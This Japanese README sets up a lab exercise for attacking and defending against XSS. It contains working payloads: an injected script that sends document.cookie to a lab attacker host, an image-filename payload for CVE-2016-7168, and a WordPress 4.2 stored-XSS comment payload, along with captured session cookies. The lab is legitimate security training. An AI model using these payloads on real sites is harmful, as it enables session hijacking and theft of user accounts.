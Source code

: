 # クロスサイトスクリプティングの脆弱性攻撃演習について
## Motivation
攻撃者 (Attacker) がクロスサイトスクリプティング（XSS）の脆弱性を持つ、不正スクリプトを含んだ動的ウェブサイト (Target) にユーザを誘導することにより、このサイトにアクセスしたユーザのブラウザ環境で不正スクリプトが実行される。XSSによる攻撃や情報漏洩が現実社会においてどのように発生するかを理解することは重要である。

## 学習目標
CyExcが提供する本演習では、XSSの脆弱性やこれが利用された攻撃の手法や脅威の理解を目的とし、次の演習を行う。
* XSSによるクッキー情報の窃取
* Apache2でのXSSプロテクションの有効化
* WordPress version4.2を用いたCVE-2016-7168とWordPress 4.2 Stored XSSの事象の再現
本演習ではVagrantにTargetとAttackerの2つのゲストOSを構築した環境を提供する。proxyサーバ（Apache2）は攻撃対象のウェブサーバ内に構築している。

クッキー取得やウェブ ShellのPHPコードは情報倫理の観点から、CyExcでの公開または提供は行わないものとする。

<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/block.png" title="Ex3演習環境構成図">

## Prerequisite
* Vagrant
  * Plugin: landrush, vagrant-vbguest

## Installation　　
* Vagrant　　　
1. $ vagrant up --provision　　　   
2. $ vagrant landrush ls　　　   
ゲストOSのIPアドレスとhostnameが以下のようにマッチしていない場合は、vagrant destroyを行う必要がある。　　　   
```
target.cyexc-target            192.168.33.10
10.33.168.192.in-addr.arpa     target.cyexc-target
attacker.cyexc-attacker        192.168.33.20
20.33.168.192.in-addr.arpa     attacker.cyexc-attacker
````
3. target側のOS起動
$ vagrant ssh target  <br>
	i. $ cd target/　　　    <br>
	ii.$ sudo docker-compose up --build  <br>
4. attacker側のOS起動
$ vagrant ssh attacker  <br>
	i. $ cd attacker/　　　      <br>
	ii.$ sudo docker-compose up --build  <br>

## シナリオ1
Target OSに設置されたウェブサーバは入力された文字列を表示するサイトを公開している。Attacker OSからこのウェブサイトにアクセスし、不正な入力を含むリクエストを送信し、このウェブサイトのクッキー情報が窃取されたことを確認する。

### Steps
1. ht&#8203;tp://target.cyexc-target:8000/php/xss.phpにアクセスする。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/xss.png" title="Screenshot1">
2. `"><script>alert(document.cookie)</script><!--`を入力する。
クッキー情報がポップアップ表示される。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/cookie1.png" title="Screenshot2">
3. `"><script>window.location='http://attacker.cyexc-attacker:8081/cookie.php?c='+document.cookie;</script><!--`を入力する。
Attacker OSのクッキー情報を窃取するPHPコード（cookie.php）が実行される。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/cookie2.png" title="Screenshot3">

窃取した攻撃対象のウェブサイトのクッキー情報はこちら＠[index.html](https://github.com/CyExc/CyExc/blob/master/2017/ex3/logs/index.html)

### 脅威
Attackerが不正なスクリプトを攻撃に利用するXSSの脆弱性を持ったウェブサイトに埋め込むことで、攻撃対象のウェブサイトを訪れたユーザのクッキー情報を窃取できる。クッキーはウェブサイト側が訪問者を識別するための番号であり、クッキーを用いてアカウント情報などを閲覧することができる。XSSはセッションハイジャックの前段階攻撃となる。
また、セッションハイジャック以外にも、フォームの入力内容の窃取、ユーザを外部の悪質なページにリダイレクトさせるなどの行為がXSSの脅威となる。

### curlコマンド
HTTPアクセスしてコンテンツを取得することができる。-Iオプションを使うと、HTTPリクエストのレスポンスヘッダを取得することができる。
```
Usage: curl [options...] <url>
Options: (H) means HTTP/HTTPS only, (F) means FTP only
```
* 例）www.google.comのHTTPレスポンスヘッダを取得
```
vagrant@attacker:~$ curl -I http://www.google.com
HTTP/1.1 302 Found
Cache-Control: private
Content-Type: text/html; charset=UTF-8
Referrer-Policy: no-referrer
Location: http://www.google.co.jp/?gfe_rd=cr&dcr=0&ei=2Vh0WvGGCO7d8Af_l5LoCA
Content-Length: 271
Date: Fri, 02 Feb 2018 12:26:01 GMT
```

### HTTPヘッダー
アプリケーションですべてのXSS欠陥を防ぐことは困難なため、OWASPはウェブサイトでXSS欠陥の影響を軽減するためのHTTPヘッダーの設定を推奨している。どのような効果があるか、curlコマンドを使って確認する。

#### HttpOnly Cookieフラグの使用
このフラグを設定すると、クッキーヘッダ以外から読み取ることができなくなり、JavaScriptからの参照を防ぐことができる。

#### X-XSS-Protectionレスポンスヘッダの使用
ウェブブラウザに装備されているXSSフィルタ機能を有効にすることができる。

#### Apache2の設定方法
1. wordpressコンテナにログイン
```
apache2vagrant@target:~/target$ sudo docker-compose exec wordpress bash
```
2. apache2にmod_headersを追加する。
```
root@a4ff20247d20:~# a2enmod headers
root@a4ff20247d20:~# service apache2 restart
```
3. 再度1. wordpressコンテナにログイン
```
apache2vagrant@target:~/target$ sudo docker-compose exec wordpress bash
```
4. /etc/apache2/conf-available/security.confに以下の設定を追加する。
    * `Header set X-XSS-Protection "1; mode=block"`
    * `Header edit Set-Cookie ^(.*)$ $1;HttpOnly;Secure`

```
root@a4ff20247d20:/var/www/html# vi /etc/apache2/conf-available/security.conf
root@a4ff20247d20:/var/www/html# service apache2 restart
```

設定前
```
vagrant@attacker:~$ curl -I http://target.cyexc-target:8000/php/xss.php
HTTP/1.1 200 OK
Date: Fri, 02 Feb 2018 12:27:47 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/5.6.33
Set-Cookie: PHPSESSID=ee9b5e67f350fe2de2ceec06e26684f1; path=/**
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
```

設定後
```
vagrant@attacker:~$ curl -I http://target.cyexc-target:8000/php/xss.php
HTTP/1.1 200 OK
Date: Fri, 02 Feb 2018 12:34:32 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/5.6.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-XSS-Protection: 1; mode=block
Set-Cookie: PHPSESSID=17b07d99c8a5e7852286454dba8d115e; path=/;HttpOnly;Secure
Content-Type: text/html; charset=UTF-8
```

## シナリオ2
Target OSに設置されたWordPressサーバに不正な入力を含むリクエストを送信し、CVE-2016-7168とWordPress 4.2 Stored XSSの事象を確認する。

### CVE-2016-7168事象
CVE-2016-7168は、XSSコードが含まれている画像ファイル名におけるWordPressの重大なXSSの脆弱性である。

### Steps
1. Browse to http://target.cyexc-target:8000
2. ファイル名にXSSコードが含まれている画像をWordPress記事に添付する。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/post.png" title="Screenshot4">
3. プレビュー画面に遷移する。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/CVE-2016-7168.png" title="Screenshot5">

### WordPress 4.2 Stored XSS事象
WordPress 4.2 Stored XSSは、WordPressに投稿された記事のコメント欄にJavaScriptと64KB以上の文字列を一緒に投稿することで、コメント欄を表示したTarget OSのブラウザ上で任意のJavaScriptを実行することができる。

### Steps
1. Browse to http://target.cyexc-target:8000
2. WordPressに投稿された記事のコメント欄にJavaScriptと64KB以上の文字列を一緒に投稿する。
`<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>`
64KB以上の文字列は下記のようなPythonスクリプトで作成した。
```
print 'A' * (64*1024 + 1)
```
確認ではWEB ShellコードをGETするXSSコード設置した。WordPressサーバに不正なスクリプトが設置される。
<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex3/images/4_2_XSS.png" title="Screenshot6">

#### wordpressサーバでHTTP通信をキャプチャ
1. wordpressコンテナにログイン
```
vagrant@target:~/target/wordpress$ sudo docker-compose exec wordpress bash
```
2. ngrepを使用してHTTP通信をキャプチャ
```
root@64ff6b86f93b:/var/www/html# ngrep -W byline 'HTTP' -q > ngrep.log
```
3. wordpressコンテナをログアウト
4. wordpressコンテナのcontainer IDを調べる
```
vagrant@target:~/target/wordpress$ sudo docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                  NAMES
64ff6b86f93b        mywp                "/usr/local/bin/dock…"   13 minutes ago      Up 13 minutes       0.0.0.0:8000->80/tcp   target_wordpress_1
5b396b4d2bd0        mysql:5.7           "docker-entrypoint.s…"   2 hours ago         Up 13 minutes       3306/tcp               target_db_1
```
5. 取得したngrepのログをTarget OSにコピー
```
vagrant@target:~/target/wordpress$ sudo docker cp 64ff6b86f93b:/var/www/html/ngrep.log .
```

### CVE-2016-7168の確認
* XSSコードが含まれている画像のアップロード
T 192.168.33.1:60465 -> 192.168.1.10:80 [AP]
GET /wp-content/uploads/2018/02/img-srca-onerroralertdocument.cookie-300x300.png HTTP/1.1
Host: target.cyexc-target:8000.

* XSSコードが含まれている画像ファイル名が動的WEBページに紛れ込んでいることがわかる。
T 192.168.33.1:60475 -> 192.168.1.10:80 [A]
POST /wp-admin/async-upload.php HTTP/1.1.
Host: target.cyexc-target:8000.
Content-Type: multipart/form-data; boundary=---------------------------119484861102225031902156995.
Cookie: wp-saving-post=4-check; wordpress_90d5ca9d152667cf01931c7af43d449d=admin%7C1517746831%7C3lnjB9FzHVQ2di2eXuIxgsUSODN2ewsjPvk7NRZBlCz%7Cc5f6ca4e502585ad989c59e1335e0a1c6e9fedf65fdb0795a4f862b31805c454; wp-settings-time-1=1517579032; wp-settings-1=editor%3Dtinymce%26libraryContent%3Dbrowse%26urlbutton%3Dpost; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_90d5ca9d152667cf01931c7af43d449d=admin%7C1517746831%7C3lnjB9FzHVQ2di2eXuIxgsUSODN2ewsjPvk7NRZBlCz%7Ca6730f416c68fb6d6713bf188f5d7b056bc2f8cabf3bb8b58e0c0ecccfd96bd6; PHPSESSID=62b5fe7e3928dd77f90bde1a505db58e.
Connection: keep-alive.
.
-----------------------------119484861102225031902156995.
Content-Disposition: form-data; name="name".
.
**<img src=a onerror=alert(document.cookie)>.png.**

取得したログはこちら＠[ngrep.log](https://github.com/CyExc/CyExc/blob/master/2017/ex3/logs/ngrep2.log)


## References
* [Corss-site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
* [CWE-79](https://cwe.mitre.org/data/definitions/79.html)
* [XSS対策チートシート](https://jpcertcc.github.io/OWASPdocuments/CheatSheets/XSSPrevention.html)
* [CVE-2016-7168](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7168)
* [WordPress - Authenticated Stored Cross-Site Scripting via Image Filename](https://wpvulndb.com/vulnerabilities/8615)
* [WordPress 4.2 Stored XSS](https://klikki.fi/adv/wordpress2.html)
* [2015年JPCERT ログを活用した高度サイバー攻撃の早期発見と分析](https://www.jpcert.or.jp/research/APT-loganalysis_Presen_20151117.pdf)
* [Detecting Attacks on Web Applications from Log
Files](https://www.sans.org/reading-room/whitepapers/logging/detecting-attacks-web-applications-log-files-2074)
* [ngrep examples](https://github.com/jpr5/ngrep/blob/master/EXAMPLES.md)
